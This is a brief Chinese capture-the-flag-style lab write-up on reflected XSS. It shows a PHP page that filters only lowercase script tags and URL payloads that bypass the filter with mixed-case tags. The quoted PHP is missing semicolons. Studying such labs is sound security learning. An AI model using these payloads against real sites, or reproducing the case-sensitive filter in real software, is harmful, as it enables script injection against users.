



# xss2

进入example2.php

传入payload1
```javascript
example2.php?name=<script>alert("hello xss")</script>
```


直接打印了alert('hello xss')
应该是过滤了script
源码
```php
<?php
    $name = $_GET['name'];
    $name = preg_replace("/<script>/", "", $name)
    $name = preg_replace("/<\/script>/", "", $name)
?>
```

使用了preg_replace正则替换了\<script>这个标签
但是没有去设定/i来不区分大小写所以可以使用大小写绕过
payload2
```javascript
example2.php?name=<sCriPt>alert('hello xss')</ScRipT>
```

payload3
```javascript
example2.php?name=<sCriPt>document.write('hello xss')</ScRiPt>
```


过关：）~